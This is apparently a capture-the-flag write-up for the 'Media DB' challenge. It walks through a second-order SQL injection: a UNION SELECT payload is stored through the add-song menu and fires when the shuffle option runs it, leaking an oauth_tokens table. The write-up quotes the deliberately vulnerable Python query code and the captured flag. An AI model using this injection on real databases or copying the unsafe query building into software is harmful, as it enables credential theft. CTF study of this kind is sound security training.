 # Media-DB CTF

In this CTF we were given an address and an attachment. We can see that the attachment given is the source code of the program running at the given address.

## Observations

Upon connecting to \bmedia-db.ctfcompetition.com 1337\b through netcat we are greeted with:
```
=== Media DB ===
1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
```

It is clear (looking at the source code) that this program is based off an sql database.
Upon obseving the code, we can see that the program loads the flag within a table in the database.
```
with open('oauth_token') as fd:
  flag = fd.read()
```
and
```
c.execute("CREATE TABLE oauth_tokens (oauth_token text)")
```
## Method

Since this program takes user input, we will try to use an sql injection in order to view the oauth_tokens table.
The code provided helps us circomvent certain filtering. We can see that in the case of entering "1" in the main menu, any " will be filtered out.
```
if choice == '1':
    my_print("artist name?")
    artist = raw_input().replace('"', "")
    my_print("song name?")
    song = raw_input().replace('"', "")
    c.execute("""INSERT INTO media VALUES ("{}", "{}")""".format(artist, song))
```
In the case where we enter "2" in the main menu, any instance of ' will be filtered out.
```
elif choice == '2':
    my_print("artist name?")
    artist = raw_input().replace("'", "")
    print_playlist("SELECT artist, song FROM media WHERE artist = '{}'".format(artist))
```
In the case where we enter "3", ' will be filtered out.
```
elif choice == '3':
    my_print("song name?")
    song = raw_input().replace("'", "")
    print_playlist("SELECT artist, song FROM media WHERE song = '{}'".format(song))
```
A good thing to note here is that, when selecting the fourth option in the program, it will execute anything in the table and will not filter the data in the tables.
```
  elif choice == '4':
    artist = random.choice(list(c.execute("SELECT DISTINCT artist FROM media")))[0]
    my_print("choosing songs from random artist: {}".format(artist))
    print_playlist("SELECT artist, song FROM media WHERE artist = '{}'".format(artist))
```
As we can see from above, the sql command string uses single quotes after "WHERE artist =". Recalling from earlier, if we chose the first option in the main menu,
only double quotes are filtered out, not single quotes. Thus, we will try to inject an sql command using the first option and try to view the oauth token table.

At the main menu, chose option 1. When prompted for the artist name, enter:
```
Cedric' UNION SELECT oauth_token, '' FROM oauth_tokens WHERE oauth_token LIKE 'C%
```
and enter anything for the song name.

Now, when selecting option 4, the line
```
SELECT artist, song FROM media WHERE artist = '{}'
```
Will look like:
```
SELECT artist, song FROM media WHERE artist = 'Cedric' UNION SELECT oauth_token, '' FROM oauth_tokens WHERE oauth_token LIKE 'C%'
```
As you can see from above, I used the single quotations to trick the interprator into selecting a song from media where the artist matches 'Cedric'. I then added UNION in
order to combine the results (a union between both selected values from 2 different tables). Since the first table returns 2 values (artist and song), we need to return 2 values from the oauth_tokens table (sql screems at you if you try to union two tables that return a different number of values). This is why I added the '' (im just adding a blank value). Then, from oauth_tokens, I return a value WHERE oauth_token is like C% (meaning any string starting with C because the flag starts with "CTF").

We are then greeted with the flag,
```
1: "" by "CTF{fridge_cast_oauth_token_cahn4Quo}
```

